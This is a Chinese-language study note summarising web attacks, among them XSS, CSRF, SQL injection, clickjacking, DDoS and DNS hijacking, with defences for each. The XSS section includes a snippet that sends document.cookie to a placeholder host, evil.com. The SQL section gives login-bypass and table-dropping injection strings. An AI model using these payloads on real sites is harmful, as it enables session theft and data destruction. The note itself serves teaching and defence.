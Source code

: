 ## XSS攻击

XSS（Cross Site Scripting）跨站脚本攻击：在网页中注入恶意脚本。用户浏览网页时执行恶意脚本。常见类型为反射型XSS和存储型XSS。

比如一个url

```
http://localhost/xss/test.php?usr=<script=http://www.evil.com/evil.js
```

```js
var img=document.createElement('img')
img.src='http://www.evil.com/log?'+encodeURIComponent(document.cookie)
document.body.appendChild(img)
```

##### 防护

1. HttpOnly 在**Set-Cookie**的时候标记的。 
2. 移除用户输入的和事件相关的属性。
   1.  如onerror可以自动触发攻击，还有onclick
   2. 移除用户输入的Style节点、Script节点、Iframe节点
3. 避免直接对HTML Entity进行解码。使用DOM Parse转换，校正不配对的DOM标签。 html encode进行转译

## Referrer

referrer泄漏   no-referrer-when-downgrade

##### 防护

Referrer-Policy 设置strict-origin-when-cross-origin

## CSRF

CSRF（Cross-site request forgery）跨站请求伪造：攻击者诱导受害者进入第三方网站，在第三方网站中，向被攻击网站发送跨站请求。利用受害者在被攻击网站已经获取的注册凭证，绕过后台的用户验证，达到冒充用户对被攻击的网站执行某项操作的目的。

#### 流程

- 用户登录了A站，保留登录凭证
- 攻击者引诱用户访问了B站
- B站向A站发送正常请求
- A站验证后以为是用户发出，执行相关操作
- 攻击完成

> cookie保证了用户可以处于登录状态，但网站B其实拿不到 cookie。

##### 防护

1. 添加验证码
2. Anti CSRF Token 请求参数里面的随机token

## 注入攻击

- SQL注入

```sql
SELCT * FROM user WHERE email='%s' AND password='%s'
```

1. 绕过秘密 email="xxx' OR 1=1 --" password="****"
2. 删除数据表 email="xxx';  drop table --" password="****"

##### 防护

1. 预编译语句 绑定变量
2. 特殊字符转译
3. 不返回详细sql信息
4. 严格控制数据库权限

- XML注入

## 点击劫持

视觉欺骗（透明的iframe）

##### 防护

X-FRAME-OPTIONS

## DDOS攻击

DDOS（Distributed Denial Of Service）分布式拒绝服务。利用合理的请求造成资源过载，导致服务不可用。

#### 特征

- 来自单个 IP 地址或 IP 范围的可疑流量
- 来自共享单个行为特征（例如设备类型、地理位置或 Web 浏览器版本）的用户的大量流量
- 对单个页面或端点的请求数量出现不明原因的激增
- 奇怪的流量模式，例如一天中非常规时间段的激增或看似不自然的模式（例如，每 10 分钟出现一次激增）

#### 类型

- 网络层

  - SYN

    依靠TCP三次握手机制，随意构造源ip发送SYN包，SYN+ACK包就得不到应答

  - ACK

    查表，响应ACK/RST

  - UDP

- 应用层

  - DNS

    依靠dns解析机制，随意构造域名，DNS服务器递归查询，造成很大负载

  - http慢连接

    建立http连接，设置一个较大的content-length，但是每次只发送很少字节，让服务器一直以为http头部没有传输完

##### 防护

- 打开SYN半数连接数目
- 严格限制向外访问
- 限制请求频率，重定向到错误页面
- 验证码

## 文件传输漏洞

##### 防护

- 使用白名单
- 使用随机数改写文件路径和文件名

## DNS劫持

通过某些手段获取某域名的解析控制权，修改域名的解析结果

##### 防护

- 使用114.114.114.114 或者8.8.8.8
- 使用多个域名
- 移动端httpDNS

